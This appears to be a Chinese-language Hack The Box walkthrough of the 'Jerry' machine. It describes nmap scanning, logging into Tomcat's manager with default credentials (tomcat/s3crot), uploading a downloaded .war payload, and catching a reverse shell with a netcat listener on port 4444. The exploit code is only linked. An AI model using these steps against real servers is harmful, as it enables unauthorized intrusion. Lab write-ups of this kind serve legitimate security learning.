

# Hack the box - Jerry

用kali linux指令 `nmap -sC -sV {目标IP}`  扫描靶机

.PNG>)

从上图可知，靶机上运行的服务器版本是 Apache Tomcat/Coyote JSP engine 1.1 这时候，我们需要搜索这个服务器版本，看看这个版本有没有漏洞可以被利用。

现在，在浏览器输入这个网址 `http://{靶机IP}:8080`&#x20;

.png)

点击 Cancel 后会出现账户名和密码

.png)

用获取的账号密码登录

.png)

在这个页面里面，我们可以发现，这个服务器允许上传文件。这时候，我们需要一点外部的帮助



从这个Github 链接里下载两个文件，一个.py文件，一个.war文件。将两个文件放在Kali的同一个文件夹中。然后再打开一个shell，在刚打开的shell中输入 `nc -lvp 4444` 。这个指令的目的是让netcat在4444端口上监听reverse shell。用指令 cd 转到下载了.py 和.war 文件的文件夹中。输入指令 `python3 --rhost http://{靶机IP}:8080 --login tomcat --password s3crot --lhost {本机IP} -lport 4444` 来攻击靶机

.png)

然后你就有shell了

 (1).png>)

最后做一点小总结。我这篇笔记很大程度上都是照着nullarmor的一篇笔记做得。他写的python 和 war文件我都不是很理解。有兴趣的话大家可以自己去看源码。




